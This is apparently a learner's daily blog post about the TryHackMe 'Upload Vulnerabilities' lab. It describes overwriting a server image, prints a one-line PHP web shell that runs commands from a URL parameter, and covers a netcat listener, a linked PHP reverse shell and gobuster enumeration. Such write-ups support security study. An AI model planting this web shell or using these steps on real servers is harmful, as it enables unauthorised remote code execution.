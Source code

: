 ```yaml
---
title: Day 23
date: 2022-05-06
layout: post.njk
tags: daily
---
```


{{ page.date.toDateString }}

Today I'm wokring on the [Upload Vulnerabilities](https://tryhackme.com/room/uploadvulns) module. I think really understanding how to take advantage of file upload vulnerabilities could be a huge help in finding bug bounties.

Theres a few different things you can do with file upload vulnerabilites:
- Overwriting existing files on a server
- Uploading and Executing Shells on a server
- Bypassing Client-Side filtering
- Bypassing various kinds of Server-Side filtering
- Fooling content type validation checks

## Overwriting Existing Files
The first exercise is overwriting a file. The first site has a file upload with a picture for the background. I looked at the source for the image and it was `images/mountains.jpg` so I copied a local image to have the same name `mountains.jpg` and uploaded it and got the flag.

## Remote Code Execution
The second exercise was taking advantage of an RCE. The two main options:
- Web shells
- Reverse Shells

### Web Shell
A webshell would be uploading a file with code that is the same as the backend. Then referencing it and using the ulr to pass commands. For example I use gobuster to do some directory enumeration. I see that there is a upload directory and I make the assumption that files are uploaded there. I assume the backend is running PHP.  so I upload `webshell.php` which is just:

>`<?php`
>
>    `echo system($_GET["cmd"]);`
>
>`?>`

the I use the url `/uploads/webshell.php?cmd=id;whoami;ls` and view the page and I'll see the result of those commands being run. From here we can do anything including upgrading to a reverse shell.

### Reverse Shell
Is when you have an interactive shell in a terminal. The process for doing this is essentially the same as the webshell you take a file like [Pentest Monkey reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) that matches the backend code being used by the application and input your IP. You open a netcat listener on the correct port using `nc -lvnp 1234`. You upload the file, then navigate to the file in your browser. This time the browser will hang but if you look back at the terminal you should have a connection.

### Practical
In this exercise I start by running gobuster to enumerate the directories using `gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

I got the results:
>`/resources`
>
>`/assets`
>
>`/server-status`

I attempted to upload to `/resources` I did both the web shell upload and the reverse shell uploads successfully. 

This seemed like a good palce to stop today so I'll pick up the rest of this tomorrow.

